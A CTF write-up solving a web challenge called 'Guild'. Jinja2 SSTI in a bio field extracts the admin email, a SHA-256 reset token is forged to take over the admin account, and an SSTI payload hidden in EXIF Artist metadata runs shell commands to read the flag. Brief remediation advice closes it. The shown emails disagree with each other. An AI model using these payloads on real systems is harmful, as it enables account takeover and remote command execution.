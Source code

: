 Guild is a Web Application that allows you to create an account and write a bio. A docker image is provided with the challenge for code review.
After reviewing the code, it is apparent that the field for the user's bio is vulnerable to SSTI which is executed in a `jinja2` engine when the link to the bio is generated, shared and opened.
However, there is a comprehensive blacklist that does not allow us to read the file or use functions like `os` and `popen()`. 
Fortunately, the blacklist on the input for the bio is not comprehensive enough to stop us from accessing the `ORM` where user data is stored. We can access the admin email and password. 
However, the admin password is hashed with `scrypt` and bruteforcing it is not an option since it is incredibly random (from the code review).
The most promising option left is to reset the password. Fortunately, the code for generating the rest token is available and can easily be executed with python. 
Having reset the password, we can now log in as admin and verify other user's accounts. To verify an account, a user has to submit an image with the key `Artist` in the exif metadata. 
This provides an opportunity to inject code since the `verify` function is vulnerable to SSTI and has no blacklist.

## Extract admin email address through SSTI 
```
{{ User.query.filter_by(username='admin').first().email }}
4a566d746a674c70@master.guild

Initiate a password reset for the admin
```

 ## Initiate a password reset    
From the serverside code, we know how to generate the password reset token
admin password : `7976344c5069466a@master.guild`
`reset_token = hashlib.sha256(user.email.encode()).hexdigest()`

*code to generate the password reset token*
 ```
python3 -c "import hashlib; print('VULNERABLE RESET URL:'); print('/changepasswd/' + hashlib.sha256('7976344c5069466a@master.guild'.encode()).hexdigest())"

http://94.237.57.1:40048/changepasswd/81e138030b51db9cb8296001c789fb80edcc4679e6191dc2974e9e6806371263
```

 
 ## Login as Admin
This will show the admin dashboard with a link to verify users. This link reads EXIF data that was submitted via the upload image feature. 
The code is available in views.py

## Write the EXIF data
This does not work on PNG, use JPG.
```
exiftool -Artist="{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}" image.jpg
 ```

Upload the image from a normal user account and verify the user from the admin account. This will reveal the flag. 
 
This CTF challenge involved  
 1. SSTI to read database values, 
 2. Reviewing serverside code to determine blacklists for SSTI, password reset tokens and URL, how the app processed EXIF data.

## Remediation
1. Never use user supplied data directly into a template. Instead, validate and only use allowlisted values.
2. Use a safe, sandboxed engine.
3. Use strong cryptography to generate tokens.
4. Do not trust metadata in media files.
  
<img width="1125" height="658" alt="admin-panel" src="https://github.com/user-attachments/assets/3995704f-ba49-438a-912f-96a94793655f" />
<img width="1135" height="326" alt="flag1" src="https://github.com/user-attachments/assets/ec202d07-bb07-4c98-b66e-0703a67e8151" />




